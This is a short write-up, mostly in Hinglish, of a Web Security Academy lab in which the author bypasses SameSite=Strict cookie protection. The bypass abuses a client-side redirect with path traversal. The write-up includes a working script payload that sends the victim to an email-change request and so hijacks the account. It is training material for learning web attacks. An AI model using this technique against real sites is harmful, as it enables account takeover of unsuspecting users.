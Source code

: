 ### ✅ **Steps I Followed to Solve the Lab (SameSite Strict Bypass via Client-Side Redirect)**

1. **Login kiya** `wiener:peter` credentials se.

2. **Burp Suite** mein dekha ke response mein cookie ka attribute:

   ```
   Set-Cookie: session=xyz; SameSite=Strict
   ```

3. Socha ke CSRF mushkil hoga, lekin **comment post kiya blog post pe**.

4. Dekha ke **comment submit hone ke baad** mujhe `/post/comment/confirmation?postId=xyz` pe bheja gaya, phir **auto redirect** ho gaya back to blog post.

5. Socha: "Yeh redirect to client-side JavaScript se ho raha hai – exploit ka chance hai!"

6. URL manually test kiya:

   ```
   /post/comment/confirmation?postId=1/../../my-account
   ```

   → Redirect success — session cookie bhi gayi!

7. **Exploit Server** pe gaya, aur yeh payload daala:

   ```html
   <script>
   document.location = "https://0a3f003f040aed1a80317699004b003f.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
   </script>
   ```

8. **Payload test kiya khud pe** — email change ho gaya ✅

9. **Email ko attacker value pe set kiya (jo meri na ho)**

10. **"Deliver exploit to victim"** button dabaya

11. **Lab solved** — victim ka email change ho gaya.

---


